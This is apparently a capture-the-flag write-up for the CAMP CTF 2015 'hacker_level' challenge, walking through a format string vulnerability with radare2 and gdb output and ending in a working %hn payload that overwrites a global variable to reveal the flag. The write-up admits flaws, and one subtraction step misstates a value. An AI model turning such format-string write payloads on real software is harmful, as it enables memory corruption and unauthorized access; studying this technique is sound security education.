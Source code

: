 # CAMP CTF 2015: hacker_level-200

**Category:** Pwn
**Points:** 200
**Solves:** 64
**Description:**

> What's your hacker level?
>
> Find out with this nifty little app at challs.campctf.ccc.ac:10118. You can also run your own instance: [hacker_level](hacker_level.tar.gz)

## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 

### Meta

Vulnerability:

* Format String
* Hardcoded Check Evasion

We are given an unstripped 32bit ELF for i386 Linux:

```bash
$ file hacker_level
hacker_level: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.32, BuildID[sha1]=29288494155b99bcb97cd3af0961c9a34d307be2, not stripped
```

Running the binary:

```bash
$ ./hacker_level
What's your name? hello
Hello, hello
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x3076
```

We can input a name, which is then printed back to us.

We open the binary in `radare2` to print available functions:

```bash
[0x080486ea]> aa
[0x080486ea]> afl | sort -k1 | column -t
0x08048440  35   3   sym._init
0x08048480  16   2   sym.imp.setbuf
0x08048490  16   2   sym.imp.printf
0x080484a0  16   2   sym.imp.fgets
0x080484b0  16   2   sym.imp.fclose
0x080484c0  16   2   sym.imp.__stack_chk_fail
0x080484d0  16   2   sym.imp.usleep
0x080484e0  16   2   sym.imp.fread
0x080484f0  16   2   sym.imp.puts
0x08048500  16   2   loc.imp.__gmon_start__
0x08048510  16   2   sym.imp.__libc_start_main
0x08048520  16   2   sym.imp.fopen
0x08048530  476  11  section..text
0x080486ea  34   1   entry0
0x08048710  4    1   sym.__x86.get_pc_thunk.bx
0x08048720  43   4   sym.deregister_tm_clones
0x08048750  53   4   sym.register_tm_clones
0x08048790  30   3   sym.__do_global_dtors_aux
0x080487b0  43   4   sym.frame_dummy
0x080487e0  93   4   sym.__libc_csu_init
0x08048840  2    1   sym.__libc_csu_fini
0x08048844  20   1   sym._fini
```

We see some interesting imported functions, such as `fgets`, `printf` and `fread`, as well as our binarys functions, all cluttered together in `section..text`.

Fortunately, we are given the source code of our binary, [hacker_level.c](./hacker_level.c).

We can see some interesting things:

* In line `21`, we can clearly see our input handed - without modifications - to `printf` as the first parameter. This indicates a Format String Vulnerability.
* In line `24`, we see a check of our `level` object against `0xCCC31337`:
  * If it fails, it just prints that we don't have the correct hacker level
  * If it succeeds, the flag is read from `flag.txt` (if it exists) and printed to us
* The function `calc_level` calculates our level in such a way that we never achieve the correct level in a legal way. Our level is always calculated modulo `0xcafe`.

Having these statements in mind, we know that we have to overwrite `level` to fit `0xCCC31337`.

We first have to find out the address to `level`, e.g. in `radare2`, to overwrite it using a Format String Exploit:

```bash
[0x080486ea]> is | grep level
vaddr=0x0804a04c paddr=0x0000104c ord=044 fwd=NONE sz=4 bind=LOCAL type=OBJECT name=level
```

Now that we have the address to `level` (`0x0804a04c`), we have to find the correct offset to our input.

First, decompile the text section of our binary in `radare2` to find the address to our `printf(name);` call:

```bash
[0x080486ea]> aa
[0x080486ea]> pdf @ section..text 
            ;-- main:
            ;-- main:
            ;-- section_end..plt:
/ (fcn) section..text 476
|           ; var int local_0_1    @ ebp-0x1
[...]
|           0x080485fd      c70424738804.  mov dword [esp], str.Hello_ ; hacker_level.c:20  printf("Hello, "); ; [0x8048873:4]=0x6c6c6548  LEA str.Hello_ ; "Hello, " @ 0x8048873 ; .//hacker_level.c:20  .usleep(150000);
|           0x08048604      e887feffff     call sym.imp.printf
|           0x08048609      891c24         mov dword [esp], ebx        ; hacker_level.c:21  printf(name); ; .//hacker_level.c:21  .printf(\"Hello, \");
|           0x0804860c      e87ffeffff     call sym.imp.printf
|           0x08048611      c7042460ae0a.  mov dword [esp], 0xaae60    ; hacker_level.c:23  usleep(700000); ; [0xaae60:4]=-1 ; .//hacker_level.c:23  
|           0x08048618      e8b3feffff     call sym.imp.usleep
[...]
```

Looks like we have to set a breakpoint in `gdb` at `0x0804860c` to avoid bruteforcing the correct offset for our Format String Exploit:

```bash
gdb-peda$ b *0x0804860c
Breakpoint 1 at 0x804860c: file hacker_level.c, line 21.
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level 
What's your name? AAAA%x.%x.%x
Hello, [----------------------------------registers-----------------------------------]
EAX: 0x7 
EBX: 0xffffd4bc ("AAAA%x.%x.%x\n")
ECX: 0x7 
EDX: 0xf7fb9898 --> 0x0 
ESI: 0xffffd4c9 --> 0x0 
EDI: 0xffffd4fc --> 0x0 
EBP: 0xffffd568 --> 0x0 
ESP: 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
EIP: 0x804860c (<main+220>:     call   0x8048490 <printf@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485fd <main+205>:        mov    DWORD PTR [esp],0x8048873
   0x8048604 <main+212>:        call   0x8048490 <printf@plt>
   0x8048609 <main+217>:        mov    DWORD PTR [esp],ebx
=> 0x804860c <main+220>:        call   0x8048490 <printf@plt>
   0x8048611 <main+225>:        mov    DWORD PTR [esp],0xaae60
   0x8048618 <main+232>:        call   0x80484d0 <usleep@plt>
   0x804861d <main+237>:        add    esp,0x10
   0x8048620 <main+240>:        cmp    DWORD PTR ds:0x804a04c,0xccc31337
Guessed arguments:
arg[0]: 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------stack-------------------------------------]
0000| 0xffffd4a0 --> 0xffffd4bc ("AAAA%x.%x.%x\n")
0004| 0xffffd4a4 --> 0x40 ('@')
0008| 0xffffd4a8 --> 0xf7fb8c20 --> 0xfbad208b 
0012| 0xffffd4ac --> 0xf7ffdaf0 --> 0xf7ffda94 --> 0xf7fbc2b8 --> 0xf7ffd938 --> 0x0 
0016| 0xffffd4b0 --> 0xffffd570 --> 0x80487e0 (<__libc_csu_init>:       push   ebp)
0020| 0xffffd4b4 --> 0xf7fe57aa (cmp    eax,0x0)
0024| 0xffffd4b8 --> 0xffffd520 --> 0xffffffff 
0028| 0xffffd4bc ("AAAA%x.%x.%x\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0804860c in main () at hacker_level.c:21
21              printf(name);
gdb-peda$ x/20wx $esp
0xffffd4a0:     0xffffd4bc      0x00000040      0xf7fb8c20      0xf7ffdaf0
0xffffd4b0:     0xffffd570      0xf7fe57aa      0xffffd520      0x41414141
0xffffd4c0:     0x252e7825      0x78252e78      0x0000000a      0x00000000
```

Our stack can be represented as such:

![](./stack.png)

On the left side, we can see what `printf` expects on the stack. On the right side, we see the values and addresses pushed to the stack.

Our input, `AAAA`, is assumed to be the format string and has the address `0xffffd4bc`.

It also is the `7th` word on the stack after the assumed format string - this is our offset.

To confirm:

```bash
$ ./hacker_level
What's your name? AAAA%x.%x.%x.%x.%x.%x.%x
Hello, AAAA40.f7745c20.f778aaf0.ffb684d0.f77727aa.ffb68480.41414141
Sorry, you're not leet enough to get the flag :(
Your hacker level is: 0x8957
```

The seventh `%x` in our test format string `AAAA%x.%x.%x.%x.%x.%x.%x` prints the beginning of our input, `41414141` - sweet!

If we switch `AAAA` with the address `level`, we can use `printf` to store a value into the given address using the format operand `%n`.

`%n` stores the number already printed into a given offset that we can specify by using the `<num>$` prefix. `%7$n` would mean store the number of characters printed into the seventh format string argument.

However, since we don't want to print `0xCCC31337`==`3435336503` characters to store the value, we have to split this operation into two smaller ones:

* Store the value `0x1337`==`4919` into the second half of `level`. Address: `0x0804a04c`
* Store the value `0xCCC3`==`52419` into the first half of `level`. Address: `0x0804a04e`
* Subtract previously printed characters from each value, making the value for the second half `4911` (8 bytes printed for both addresses) and the first half `47500` (`52149`-`4919`)

Our `printf` call will look like that: `printf("formatstring/input", &level_firsthalf, &level_secondhalf);`.

The final exploit is the following:

```bash
$ python -c 'print "\x4c\xa0\x04\x08\x4e\xa0\x04\x08%.4911u%7$hn%.47500u%8$hn"' > in
gdb-peda$ r < in
Starting program: /home/vbox/pwn/tasks/camp-hackercalc/hacker_level < in
What's your name? Hello, LN0000000000[...]
[...]
[...]00000004160457760
The flag is: CAMP15_337deec05ccc63b1168ba3379ae4d65854132604
[Inferior 1 (process 2925) exited normally]
Warning: not running or target is remote
```

The flag is `CAMP15_337deec05ccc63b1168ba3379ae4d65854132604`.

Note that this writeup is not as perfect as others. Please read others and fix issues with this one (e.g. the order of halves and their addresses), if you can!

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/campctf-2015-hacker-level/> 
* <https://nuc13us.wordpress.com/2015/09/04/hacker_level-200-campctf-2015/>
* [Russian](http://reu.org.ua/camp-ctf-2015-hacker-level.html)
* [Japanese](http://www.cnhackmy.com/hacked/CTF/2015/09/12/00001675.html)
* A similar challenge by [exploit-exercises](https://exploit-exercises.com/protostar/format3/) and a [writeup](https://www.mattandreko.com/2012/02/01/exploit-exercises-protostar-format-3/)

